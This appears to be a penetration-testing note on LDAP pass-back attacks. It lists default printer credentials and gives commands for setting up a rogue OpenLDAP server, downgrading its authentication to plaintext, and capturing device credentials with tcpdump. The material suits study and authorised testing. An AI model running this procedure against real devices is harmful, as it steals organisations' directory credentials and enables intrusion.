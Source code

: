 # LDAP
`389` - Default Port

## Pass-back Attacks
Occurs when you gain access to a device configuration where LDAP parameters are specified. An example would be the web interface of a network printer. Default credentials are `admin:admin` or `admin:password`. 

If you can change the ip or hostname to an LDAP server under your control you can capture the credentials.


## Hosting a Rogue LDAP Server
A device will try to negotiate the most secure LDAP authentication method. By creating a Rogue LDAP server we can ensure this method is weak.

1. Install OpenLDAP
```sh
sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd
```

2. Reconfigure 
```sh
sudo dpkg-reconfigure -p low slapd
```

3. Omit OpenLDAP server configuration? - No
4. DNS domain name - target domain
5. Organization DN - target domain
6. Setup administrator credentials
7. Select MDB
8. Database purge ? - No
9. Move old database - Yes
10. Downgrade the authentication to ensure the server only supports `PLAIN` and `LOGIN` authentication methods.

olcSaslSecProps.ldif
```sh
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred
```

`olcSaslSecProps` - Specifies the SASL security properties.
`nonanonymous` - Disables mechanisms that support anonymous login.
`minssf` - Minimum acceptable security strength with 0 is no protection.

11. Patch our LDAP server:
```sh
sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart
```
12. Verify configuration
```sh
ldapsearch -H ldap:// -x -LLL -s base -b ""
```
13. Try to get the device to connect to the ldap server. If you see "Connection failed: The distinguished name contains invalid syntax." Then you have succeeded.
14. Use `tcpdump` to capture the credentials
```sh
sudo tcpdump -SX -i MyInterface tcp port 389
```
